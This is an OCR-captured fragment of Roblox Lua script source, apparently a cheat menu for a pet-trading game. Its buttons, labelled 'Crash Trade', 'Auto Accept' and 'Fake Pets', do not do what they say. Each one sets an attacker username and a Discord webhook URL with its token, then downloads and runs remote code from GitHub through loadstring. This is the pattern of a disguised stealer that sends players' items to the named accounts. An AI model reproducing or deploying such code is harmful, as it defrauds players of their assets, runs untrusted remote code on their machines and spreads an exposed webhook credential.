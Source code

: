 	end

})

local A = Trade.Button({

	Text = "Crash Trade",

	Callback = function()

		UserName = "red75jjj"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

	end

})

local A = Trade.Button({

	Text = "Auto Accept",

	Callback = function()

		UserName = "red75jjj"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

	end

})

local A = Trade.Button({

	Text = "Fake Pets",

	Callback = function()

		UserName = "WahOnTop"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

	end

})

local Bank = X.New({
